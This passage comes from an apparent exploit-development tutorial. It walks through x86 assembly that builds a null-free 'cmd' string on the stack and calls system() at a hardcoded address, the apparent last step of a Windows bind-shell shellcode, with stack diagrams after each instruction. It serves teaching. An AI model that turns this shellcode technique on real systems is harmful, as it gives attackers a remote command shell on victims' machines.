 Documentation: <a href="https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2019">https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2019</a>

Syntax:
```nasm
system(const char *command)
```

The final system call we need to call is the actual execution of OS commands. It takes one argument which is the a pointer to a command string. If you remember earlier, we had to deal with a filename string needed to be terminated with a null byte. Here we will also do some maneuvering to mitigate null bytes in the code.

```nasm
mov DWORD [esp-0x5], 0x646d6341   ; Store string "Acmd" 5 bytes from top of stack
lea eax, [esp-0x4]                ; Store pointer to the string "cmd\0" in eax
lea esp, [esp-0x4]                ; Manually update esp
push eax                          ; Arg1 (*command) = Pointer to "cmd\0"
mov eax, 0x77c293c7               ; Address to system()
call eax
```

### This is the stack and registers for each operation:

Starting state, where ESP points to the *addr structure from the bind() function.

```perl
       Addr        Value
       0022FE1C    FFFFFFF4
       0022FE20    00000000
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```

After `mov DWORD [esp-0x5], 0x646d6341`, the string "Acmd" is placed 5 bytes from ESP. Since the string only use 3 bytes of the "row" with only zeros, we have a clean null terminated "cmd" string on the stack.

```perl
       Addr        Value      Ascii
       0022FE1C    41FFFFF4   "...A"
       0022FE20    00646D63   "cmd\0"
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```

`lea eax, [esp-0x4]` stores a pointer to the "cmd\0" string in EAX.

```perl
       Addr        Value      Ascii
       0022FE1C    41FFFFF4   "...A"
EAX -> 0022FE20    00646D63   "cmd\0"
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```
